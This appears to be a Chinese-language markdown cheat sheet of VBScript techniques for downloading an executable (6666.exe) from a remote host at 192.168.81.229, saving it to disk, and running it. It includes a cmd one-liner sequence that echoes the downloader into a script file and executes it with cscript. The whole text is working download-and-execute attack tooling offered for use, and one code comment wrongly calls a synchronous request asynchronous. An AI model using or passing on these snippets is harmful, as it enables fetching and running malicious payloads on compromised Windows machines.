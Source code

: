 ### VBS

- 下载

  ```vbscript
  ' 使用CreateObject()方法创建一个名为xPost的XMLHttpRequest对象，用于向远程服务器发送HTTP请求
  Set xPost=createObject("Microsoft.XMLHTTP")
  ' 调用Open()方法打开一个GET请求，指定要下载的文件的URL地址
  ' 最后一个参数为0表示异步请求，即不等待服务器响应直接执行下一条语句
  xPost.Open "GET","http://192.168.81.229/6666.exe",0
  ' 调用Send()方法发送请求并获取响应内容。
  xPost.Send()
  ' 使用CreateObject()创建一个名为sGet的ADODB.Stream对象，用于将响应内容保存到本地文件
  ' 设置sGet的Mode为3（adModeReadWrite），Type为1（adTypeBinary），表示以二进制方式读写流数据
  ' 然后调用Open()方法打开流，调用Write()方法写入响应内容，最后调用SaveToFile()方法将流数据保存到本地文件中
  set sGet=createObject("ADODB.Stream")
  sGet.Mode=3
  sGet.Type=1
  sGet.Open()
  sGet.Write xPost.ResponseBody
  sGet.SaveToFile "c:\6666.exe",2
  ```

  ```cmd
  cscript download.vbs
  ```

- 下载并执行

  ```vbscript
  Set Post = CreateObject("Msxml2.XMLHTTP")
  Set Shell = CreateObject("Wscript.Shell")
  Post.Open "GET","http://192.168.81.229/6666.exe",0
  Post.Send()
  Set aGet = CreateObject("ADODB.Stream")
  aGet.Mode = 3
  aGet.Type = 1
  aGet.Open()
  aGet.Write(Post.responseBody)
  aGet.SaveToFile "c:\6666.exe",2
  wscript.sleep 1000
  Shell.Run ("c:\6666.exe") '延迟过后执行下载文件
  ```

- cmd命令写入脚本并执行

  ```cmd
  echo Set Post = CreateObject("Msxml2.XMLHTTP") >>zl.vbs
  echo Set Shell = CreateObject("Wscript.Shell") >>zl.vbs
  echo Post.Open "GET","http://192.168.81.229/6666.exe",0 >>zl.vbs
  echo Post.Send() >>zl.vbs
  echo Set aGet = CreateObject("ADODB.Stream") >>zl.vbs
  echo aGet.Mode = 3 >>zl.vbs
  echo aGet.Type = 1 >>zl.vbs
  echo aGet.Open() >>zl.vbs
  echo aGet.Write(Post.responseBody) >>zl.vbs
  echo aGet.SaveToFile "c:\6666.exe",2 >>zl.vbs
  echo wscript.sleep 1000 >>zl.vbs
  echo Shell.Run ("c:\6666.exe") >>zl.vbs
  cscript zl.vbs
  ```
